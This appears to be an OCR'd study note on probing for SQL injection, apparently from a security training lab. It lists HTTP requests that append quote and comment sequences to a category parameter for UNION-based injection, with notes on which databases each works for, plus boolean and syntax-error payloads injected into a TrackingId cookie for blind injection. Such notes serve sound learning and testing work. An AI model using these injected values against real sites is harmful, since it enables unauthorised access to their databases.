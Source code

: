 Checkpoint 1. Check for UNION attacks

      GET /filter?category=Tech+gifts' HTTP/1.1                  
      GET /filter?category=Tech+gifts'' HTTP/1.1                
      GET /filter?category=Tech+gifts'-- HTTP/1.1               // works for Oracle, Microsoft, PostgreSQL
      GET /filter?category=Tech+gifts'# HTTP/1.1                // works only for MySQL
      GET /filter?category=Tech+gifts'--  HTTP/1.1              // works only for MySQL (note the space after the dashes)
      GET /filter?category=Tech+gifts'/*comment*/ HTTP/1.1      // NOT SURE (should work for all except Oracle) 
      
Checkpoint 2. Check for Blind Sqli
  
      Test 1. Check for indicators of change between the outputs
          TrackingId=u5YD3PapBcR4lN3e7Tj5' AND '1'='1             
          TrackingId=u5YD3PapBcR4lN3e7Tj5' AND '1'='2           
          
      Test 2. Check for syntax error  
          TrackingId=u5YD3PapBcR4lN3e7Tj5'                       
          TrackingId=u5YD3PapBcR4lN3e7Tj5''                          
      
      
